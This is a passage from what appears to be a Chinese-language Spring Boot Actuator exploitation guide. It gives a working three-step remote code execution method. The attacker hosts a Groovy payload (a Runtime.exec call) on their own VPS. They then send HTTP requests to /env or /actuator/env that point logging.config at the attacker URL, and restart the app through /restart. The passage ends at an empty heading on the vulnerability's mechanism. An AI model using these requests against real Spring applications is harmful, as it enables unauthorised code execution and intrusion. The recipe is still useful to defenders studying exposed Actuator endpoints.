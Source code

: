 #### 利用方法

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `groovy` 结尾的  `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("open -a Calculator")

```

##### 步骤二：设置 logging.config 属性

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy
```

spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}
```

##### 步骤三：重启应用

spring 1.x

```http
POST /restart HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/restart HTTP/1.1
Content-Type: application/json

```

#### 漏洞原理
